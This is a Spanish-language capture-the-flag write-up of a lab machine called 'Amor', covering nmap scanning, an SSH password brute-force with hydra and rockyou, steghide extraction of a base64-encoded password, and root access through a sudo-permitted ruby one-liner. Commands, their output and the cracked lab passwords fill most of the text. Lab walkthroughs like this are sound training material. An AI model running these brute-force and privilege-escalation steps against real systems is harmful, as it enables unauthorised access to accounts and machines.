 # Amor

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

Como tenemos abierto los puertos 22 y 80, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p22,80 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p22,80`: Escaneo de los puertos 22 (SSH) y 80 (HTTP).
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7e:72:b6:8b:5f:7c:23:64:dc:15:21:32:5f:ce:40:0a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFOlcvTYtJesi6ym4P8zs6NrI1vxFDJUA1MZuHNnJnTpn2cfHyL5Sc7ZuA8TnpH9OLkUnRrZLfGP6SVEDcxX6F8=
|   256 05:8a:a7:27:0f:88:b9:70:84:ec:6d:33:dc:ce:09:6f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINj1tBchFeGScA7WX6BgUscF+TmiVpcs2YiGxuOotPel
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: SecurSEC S.L
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.58 (Ubuntu)
```
Como no tenemos usuarios de ssh ni la versión de OpenSSH nos permite la enumeración de usuarios, vamos a ver que es lo que podemos de enumerar en el puerto 80.
Vemos una nota importante que podemos, de la que podemos obtener dos posibles usuarios ssh.
```
¡Importante! Despido de empleado
Juan fue despedido de la empresa por enviar un correo con la contraseña a un compañero.
Firmado: Carlota, Departamento de ciberseguridad
'''
Con hydra probamos si a través de fuerza bruta podemos obtener acceso con ellos y vemos que con carlota podemos obtener una contraseña.
```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
## Explotación.
```
❯ hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-20 10:42:02
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlota   password: babygirl
1 of 1 target successfully completed, 1 valid password found
```
Nos conectamos por ssh.
```bash
ssh carlota@172.17.0.2
```
```
❯ ssh carlota@172.17.0.2
carlota@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.6.9-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon May 20 07:58:35 2024 from 172.17.0.1
$ whoami
carlota
```
Hacemos un pequeño tratamiento de la tty.
```bash
script /dev/null -c bash
```
En el escritorio encontramos una carpeta con una imagen.
```
4carlota@d7b55dad8c9e:~/Desktop/fotos/vacaciones$ ll
total 60
drwxr-xr-x 1 root root  4096 Apr 26 11:02 ./
drwxr-xr-x 1 root root  4096 Apr 26 11:02 ../
-rw-r--r-- 1 root root 51914 Apr 26 11:02 imagen.jpg
```
Nos descargamos la imagen a nuestro equipo para ver si tiene algo oculto.
Con python creamos en la ubicación de la imagen un servidor http y la descargamos con wget desde nuestro ordenaodr.
Servidor Python.
```bash
python3 -m http.server 8080
```
Descargar a nuestro equipo.
```bash
wget http://172.17.0.2:8080/imagen.jpg
```
Una vez en nuestro equipo comprobamos con **steghide** si tiene información oculta y vemos que si que tiene un archivo oculto.
```bash
steghide extract -sf imagen.jpg
```
```
❯ steghide extract -sf imagen.jpg
Enter passphrase: 
wrote extracted data to "secret.txt".
```
De passphrase le damos a INTRO sin poner nada. Leemos el contenido de **secret.txt** y vemos otra contraseña.
```
❯ cat secret.txt
ZXNsYWNhc2FkZXBpbnlwb24=
```
Vemos que es una contraseña cifrada en base64.
```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d
```
```
❯ echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d
eslacasadepinypon
```
Si vemos cuantos usuario hay en el sistema hay uno que es **Oscar** que vamos a utilizar la contraseña obtenida para escalar privilegios.
## Escalada de privilegios.
```
carlota@d7b55dad8c9e:/home$ ll
total 24                                                                                                                                                                                                                                    
drwxr-xr-x 1 root    root    4096 Apr 26 11:01 ./                                                                                                                                                                                           
drwxr-xr-x 1 root    root    4096 May 20 07:53 ../                                                                                                                                                                                          
drwxr-x--- 1 carlota carlota 4096 May 20 07:57 carlota/                                                                                                                                                                                     
drwxr-x--- 1 oscar   oscar   4096 Apr 26 11:02 oscar/                                                                                                                                                                                       
drwxr-x--- 2 ubuntu  ubuntu  4096 Apr 23 15:31 ubuntu/
```
```bash
su oscar
```
Y hacemos un pequeño tratamiento de la tty.
```
carlota@d7b55dad8c9e:/home$ su oscar
Password:                                                                                                                                                                                                                                   
$ whoami                                                                                                                                                                                                                                    
oscar                                                                                                                                                                                                                                       
$ script /dev/null -c bash                                                                                                                                                                                                                  
Script started, output log file is '/dev/null'.                                                                                                                                                                                             
oscar@d7b55dad8c9e:/home$
```
Y para escalar privilegios a root, comprobamos si oscar puede ejecutar algún binario con privilegios de root y encontramos que si.
```bash
sudo -l
```
```
oscar@d7b55dad8c9e:/home$ sudo -l
Matching Defaults entries for oscar on d7b55dad8c9e:                                                                                                                                                                                        
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty                                                                                                              
                                                                                                                                                                                                                                            
User oscar may run the following commands on d7b55dad8c9e:                                                                                                                                                                                  
    (ALL) NOPASSWD: /usr/bin/ruby 
```
Con ruby podemos lanzarnos una bash y así obtener privilegios de root. Para ver como hacerlo vamos a [GTFOBins](https://gtfobins.github.io/gtfobins/ruby/).
```bash
sudo ruby -e 'exec "/bin/sh"'
```
```
oscar@d7b55dad8c9e:/home$ sudo ruby -e 'exec "/bin/sh"'
# whoami                                                                                                                                                                                                                                    
root                                                                                                                                                                                                                                        
#
```
